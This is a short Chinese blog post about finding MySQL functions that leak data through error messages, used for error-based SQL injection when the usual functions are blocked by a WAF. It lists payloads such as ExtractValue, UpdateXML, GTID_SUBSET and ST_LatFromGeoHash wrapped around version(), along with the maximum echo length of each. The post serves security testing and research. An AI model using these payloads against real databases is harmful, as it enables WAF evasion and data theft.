 ```yaml
---
layout: post
title: 报错注入函数哪家强
subtitle: Let's start learning!
tags: [CC链]
author: Sine
---
```


报错注入函数哪家强......

报错注入时，往往会存在常见报错注入函数被过滤或被waf拦截的情况

那就写个脚本跑一下，在mysql中还有哪些函数会将敏感信息在报错时回显出来......

接把mysql官网上的函数拷贝下来

![image-20231014222640795](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/202310142233689.png)

开始写脚本咯

大体思路是

从文件中读取函数，根据函数和不同排列方式的结合构造不同的sql语句，以version()为判断依据，提交到数据库

判断报错中是否回显出数据库版本

![image-20231014223033423](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/202310142230488.png)

使用的Mysql版本为5.7.33

仅判断函数1-3个参数的情况

（其余情况待完善）

得到的报错注入函数

![image-20231014223100396](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/202310142231475.png)

最大回显长度：

| ExtractValue(1,concat('~',version(),'~'))        | 32   |
| ------------------------------------------------ | ---- |
| GTID_SUBSET(concat('~',version(),'~'),1)         | 200  |
| GTID_SUBTRACT(concat('~',version(),'~'),1)       | 200  |
| ST_LatFromGeoHash(concat('~',version(),'~'))     | 128  |
| ST_LongFromGeoHash(concat('~',version(),'~'))    | 128  |
| ST_PointFromGeoHash(concat('~',version(),'~'),1) | 128  |
| UpdateXML(1,concat('~',version(),'~'),1)         | 32   |
